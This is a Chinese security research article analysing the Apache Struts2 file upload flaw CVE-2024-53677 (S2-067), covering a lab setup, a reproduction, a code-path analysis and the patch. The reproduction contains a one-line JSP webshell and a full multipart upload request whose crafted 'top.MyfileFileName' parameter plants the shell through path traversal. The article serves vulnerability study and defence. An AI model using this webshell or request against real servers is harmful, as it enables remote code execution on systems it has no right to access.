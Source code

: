 #  Apache Struts2 文件上传漏洞分析（CVE-2024-53677）   
元亨-blckder02  中孚安全技术研究   2024-12-20 19:30  
  
1. 前言  
  
**官方公告:**  
     
https://cwiki.apache.org/confluence/display/WW/S2-067  
  
**漏洞描述：**  
Apache Struts 的文件上传逻辑存在缺陷，如果应用程序使用了 FileUploadInterceptor，在进行文件上传时，攻击者可以操纵文件上传参数来启用路径遍历，在某些情况下，这可能导致上传可用于执行远程代码执行的恶意文件。  
  
**影响版本：**  
Apache Struts：           

     2.0.0 - 2.3.37（EOL）

     2.5.0 - 2.5.33 

     6.0.0 - 6.3.0.2  
  
2. 环境搭建  
  
可以参考[《Apache Struts2 文件上传漏洞分析（CVE-2023-50164）》](https://mp.weixin.qq.com/s?__biz=Mzg4Nzc3MTk3Mg==&mid=2247488378&idx=1&sn=1f8fe746251c491a981785d65aaf137c&scene=21#wechat_redirect)  
  
  
将 pom.xml 中 Struts2 的版本改为 6.3.0.2 即可。  
```
<dependency>
      <groupId>org.apache.struts</groupId>
      <artifactId>struts2-core</artifactId>
      <version>6.3.0.2</version>
    </dependency>
```  
  
3. 漏洞复现  
  
同样准备一个jsp木马文件。  
```
<%Runtime.getRuntime().exec(request.getParameter("i"));%>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KBGFtwJPcPutPbPTfCeic5A9jP0iapG4HWhAibic4X3GGnvCegEPHTzjnQw/640?wx_fmt=png&from=appmsg "")  
  
上传木马文件抓包，在下面添加一个参数，参数名设置为  
top.MyfileFileName  
，参数内容设置为木马文件保存的相对位置及文件名。  
  
从响应包可以看到文件名覆盖成功。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499K1iaaibOT7vVzemsz8R8Fd9tXSP934m0vYicPFdKVne2q0O10ib0M9MibZYA/640?wx_fmt=png&from=appmsg "")  
  
请求包：  
```
POST /upload.action HTTP/1.1            
Host: 127.0.0.1:8888            
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0            
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8            
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2            
Accept-Encoding: gzip, deflate, br            
Content-Type: multipart/form-data; boundary=---------------------------3701280597827013112747531662            
Content-Length: 438            
Origin: http://127.0.0.1:8888            
Connection: keep-alive            
Referer: http://127.0.0.1:8888/upload.action            
Cookie: JSESSIONID=4209098B9C419F73225118698688A603            
Upgrade-Insecure-Requests: 1            
Priority: u=0, i            
       
-----------------------------3701280597827013112747531662            
Content-Disposition: form-data; name="Myfile"; filename="S2-067.txt"            
Content-Type: text/plain 

<%Runtime.getRuntime().exec(request.getParameter("i"));%>            
-----------------------------3701280597827013112747531662            
Content-Disposition: form-data; name="top.MyfileFileName";             
Content-Type: text/plain 
          
../exec.jsp            
-----------------------------3701280597827013112747531662--
```  
  
  
文件保存到了  
/uploads  
目录下，且文件名保存为构造传入的exec.jsp  
。********  
  
访问jsp文件，能成功执行命令。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KOibkQCLtaHk58mqPpdaOH7MUDUMibUj074bGPwfHA4uZRwEVeibgnoPmg/640?wx_fmt=png&from=appmsg "")  
  
4. 漏洞分析  
  
经过对 S66 漏洞的修复，已经不能再使用大小写来二次调用属性的 setter 方法了。学习了 y4tacker 师傅的思路，通过先获取 OgnlValueStack 值栈中的栈顶对象，再访问其属性。           有三种形式获取栈顶对象：  
[0]  
、  
top  
、  
[0].top  
    
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KwmibV4Mz4A4T9phh7PWVPPjicb1nUPhaV3jz8QKVxf9gziacWXib6vqvwA/640?wx_fmt=png&from=appmsg "")  
  
但是在参数绑定之前，会对参数进行合规校验，其中有条正则如下，要求  
(\[\d+])  
前面还需要存在一些其他字符，所以  
[0]  
和  
[0].top  
都无法通过参数合规性判断，所以只能使用  
top  
来获取栈顶对象。             
```
\w+((\.\w+)|(\[\d+])|(\(\d+\))|(\['(\w-?|[\u4e00-\u9fa5]-?)+'])|(\('(\w-?|[\u4e00-\u9fa5]-?)+'\)))*
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499Ksw8LibAxLJ7YyiaMMnxO7BNwzJcykwppbyupEqRMSqib6FZYHS4DchKkA/640?wx_fmt=png&from=appmsg "")  
  
前面部分的参数处理就不细说了，再看下 S66 那篇分析就可以了。这里就只看一下如何处理的  
top  
节点。             
  
从 ParametersInterceptor.setParameters() 看起，对 OgnlValueStack 对象进行参数绑定。           可以看到，TreeMap 对象中，top.MyfileFileName 参数是排在最后一位的，这时前面三个参数都已经绑定完成了，这时 MyfileFileName 参数的是  
S2-067.txt  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KOkVAQS1maVP3u1hb66ibly9nHJjHiavf4pgyEq70E5xMJ6FGicv2ehCkg/640?wx_fmt=png&from=appmsg "")  
  
跟进到 OgnlUtil.compileAndExecute()，对 top.MyfileFileName 进行表达式解析并执行。（解析为链式节点ASTChain）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499K2HqJMOyKcFic8x134jy5GR8LZbdyuiaduQ5Sy0g8cpEYNgaqZZRibG78g/640?wx_fmt=png&from=appmsg "")  
  
跟进到 ASTChain.setValueBody()，遍历处理子节点。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KSIxJ4kp45MFZfBvd7NTia9MuHoQM71ksElwJ38VU3jSl5rXPDY7m43Q/640?wx_fmt=png&from=appmsg "")  
  
先获取 top 节点的值，到 CompoundRootAccessor.getProperty() 中有这样一段 if 判断，如果子节点为 top，root 不为空，就返回栈顶对象，即 UploadAction。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KOsndcB38Xu8MDIOTc1EyKc69m8mjtYl0ZWHOtPo25omu05lavqicnow/640?wx_fmt=png&from=appmsg "")  
  
接着就是为 UploadAction 对象的 MyfileFileName 属性设置值，ObjectPropertyAccessor.setPossibleProperty() 中尝试去调用 setter 方法。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KWlM5FqShQ6GsrWeFuSLc1OPVQXpzcTicM1OUz2ibwdA6h7Xe3IzgP1fw/640?wx_fmt=png&from=appmsg "")  
  
ConcurrentHashMap.get()，从缓存中先获取到 UploadAction 的所有 setter 方法，再从中获取 setMyfileFileName() 并返回。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KFnXY2Gvde4YBJ9E1lsdZZFO4cibWgDE1ibEj7e4N39ZJSCW5lKVQnr9g/640?wx_fmt=png&from=appmsg "")  
  
接着调用 setMyfileFileName()。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KiaAwPHBhiac2BpyhibiangG2uA7aXSibBQx0h50keWeB1nbdZB6MCnkExnA/640?wx_fmt=png&from=appmsg "")  
  
myfieFileName 被覆盖为  
../exec.jsp  
，后续解析路径穿越符，于是上传保存的文件路径就是  
/uploads/exec.j  
sp  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499Kt6m1GXfic7r2g7iazKFIwoiaOREJoDPpBDehRMBSsiaibGMGaRkoicWq4UjQ/640?wx_fmt=png&from=appmsg "")  
  
5. 补丁分析  
  
官方并没有针对这次利用方法发布补丁，而是在新版本中推出了新的文件上传拦截机制。             
org.apache.struts2.interceptor.ActionFileUploadInterceptor    
    
https://struts.apache.org/core-developers/action-file-upload  
  
ActionFileUploadInterceptor 中直接从文件中获取参数信息，并没  
有把文件参数与请求中的参数进行合并。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KSo7H7TuxGp83G64IKYSjSZYNSfArZZdm48KkeLuuITJ62YVUwbRB4A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KuyVpLMfWzLKptZgYlLNZ6Lqhhh6pJPyIsaWyY8Kwd2Yh4dibUROATVw/640?wx_fmt=png "")  
  
不过在执行 ActionFileUploadInterceptor 拦截器前，先执行了 FileUploadInterceptor，所以请求中构造的 top.MyfileFileName 还是被合并到了参数中。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KHETaCm6cy5SPHQpPAgCWBncibpeHm5z2h5VafL9O3ztUzlQ9rn8yNiaQ/640?wx_fmt=png&from=appmsg "")  
  
在参数绑定过程中仍然会覆盖 MyfileFileName 的值。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499Ka4l5ucw81unEsxw5aHcJJBriaDaiaJe1GAicznBwRyF9Kf2Bev4BCzjrQ/640?wx_fmt=png&from=appmsg "")  
  
****  
  
**参考链接：**  
https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/  
      
  
